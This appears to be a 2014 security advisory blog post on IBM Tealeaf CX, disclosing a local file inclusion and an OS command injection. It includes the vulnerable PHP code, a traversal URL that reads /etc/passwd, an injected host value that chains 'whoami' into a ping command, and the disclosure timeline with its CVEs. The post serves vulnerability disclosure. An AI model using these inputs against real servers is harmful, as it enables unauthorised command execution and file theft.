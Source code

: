 ```yaml
---
categories:
- ibm
- tealeaf
- command injection
- lfi
comments: false
date: "2014-03-26T22:51:11Z"
title: IBM Tealeaf CX (v8 Release 8) Remote OS Command Injection / LFI
---
```


Tealeaf Technologies was [purchased](http://techcrunch.com/2012/05/02/ibm-acquires-tealeaf-to-add-customer-buying-analytics-to-smarter-commerce-products/) by IBM in May of 2012, and is a customer buying analytics application.  Essentially, an administrator will configure a Tealeaf server that accepts analytic data from remote servers, which it then generates various models, graphs, reports, etc based on the aggregate of data. 
Their analytics status/server monitoring application is vulnerable to a fairly trivial OS command injection vulnerability, as well as local file inclusion.  This vulnerability was discovered on a PCI engagement against a large retailer; the LFI was used to pull PHP files and hunt for RCE.

The entire application is served up by default on port 8080 and is developed in PHP.  Authentication by default is disabled, however, support for Basic Auth appears to exist.  This interface allows administrators access to statistics, logs, participating servers, and more.  Contained therein is the ability to obtain application logs, such as configuration, maintenance, access, and more.  The log parameter is vulnerable to LFI:

```
if(array_key_exists("log", $params))
$path = $config->logfiledir() . "/" . $params["log"];


$file = basename($path);
$size = filesize($path);

// Set the cache-control and expiration date so that the file expires
// immediately after download.
//
$rfc1123date = gmdate('D, d M Y H:i:s T', 1);
header('Cache-Control: max-age=0, must-revalidate, post-check=0, pre-check=0');
header("Expires: " . $rfc1123date);

header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename=$file;");
header("Content-Length: $size;");

readfile($path);
```

The URL then is `http://host:8080/download.php?log=../../../etc/passwd`

Tealeaf also suffers from a rather trivial remote OS command injection vulnerability.  Under the Delivery tab, there exists the option to ping remote servers that send data back to the mothership.  Do you see where this is going?

```
if ($_POST["perform_action"] == "testconn") {
    $host = $_POST["testconn_host"];
    $port = $_POST["testconn_port"];
    $use_t = strtolower($_POST["testconn_t"]) == "true" ? true : false;
    $command = $GLOBALS["config"]->testconn_program() . ' ';
    if($use_t)
    $output = trim(shell_command_output($command . $host . " -p " . $port . " -t"));
    else
    $output = trim(shell_command_output($command . $host . " -p " . $port));

    if($output != "") {
        $alert_function = "alert('" . str_replace("\n", "\\n",
        htmlentities($output, ENT_QUOTES)) . "')";
    }

    $_SESSION['delivery']->pending_changes = $orig_pending_changes;
}
```

And shell_command_output:

```
function shell_command_output($command) {
    $result = `$command 2>&1`;
    if (strlen($result) > 0)
    return $result;
}
```

Harnessing the `$host` variable, we can inject arbitrary commands to run under the context of the process user, which by default is `ctccap`.  In order to exploit this without hanging processes or goofing up flow, I injected the following as the host variable: `8.8.8.8 -c 1 ; whoami ; ping 8.8.8.8 -c 1`.  

<h3>Timeline</h3>
+ 11/08/2013: IBM vulnerability submitted
+ 11/09/2013: IBM acknowledge vulnerability and assign internal advisory ID
+ 12/05/2013: Request for status update
+ 01/06/2014: Second request for status update
+ 01/23/2014: IBM responds with a target patch date set for "another few months"
+ 03/26/2014: IBM posts advisory, assigns CVE-2013-6719 and CVE-2013-6720

[Advisory](http://www-01.ibm.com/support/docview.wss?uid=swg21667630)  
[exploit-db PoC](http://www.exploit-db.com/exploits/32546/)
